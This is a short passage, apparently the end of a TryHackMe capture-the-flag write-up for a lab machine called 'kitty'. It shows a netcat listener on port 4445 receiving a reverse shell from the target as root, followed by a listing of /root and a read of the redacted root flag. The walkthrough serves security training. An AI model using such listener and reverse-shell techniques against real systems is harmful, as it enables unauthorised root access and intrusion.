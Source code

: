 We should get our reverse shell back on our nc listner:

```bash
┌──(ghost㉿kali)-[~/tryhackme/kitty]
└─$ rlwrap -f . -r nc -nvlp 4445
listening on [any] 4445 ...
connect to [10.17.87.131] from (UNKNOWN) [10.10.50.107] 56272
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls -la
total 40
drwx------  5 root root 4096 Jul 12 11:14 .
drwxr-xr-x 19 root root 4096 Jul 12 09:43 ..
lrwxrwxrwx  1 root root    9 Nov 15  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Nov  8  2022 .cache
-rw-r--r--  1 root root    5 Jul 12 11:14 logged
lrwxrwxrwx  1 root root    9 Nov 15  2022 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   38 Nov 15  2022 root.txt
-rw-r--r--  1 root root   75 Nov 15  2022 .selected_editor
drwx------  3 root root 4096 Nov  8  2022 snap
drwx------  2 root root 4096 Nov  8  2022 .ssh
-rw-------  1 root root    0 Feb 25  2023 .viminfo
cat root.txt
THM{581bfc2.......REDACTED}
```

And we are root now!

---

That’s it for this machine.✅
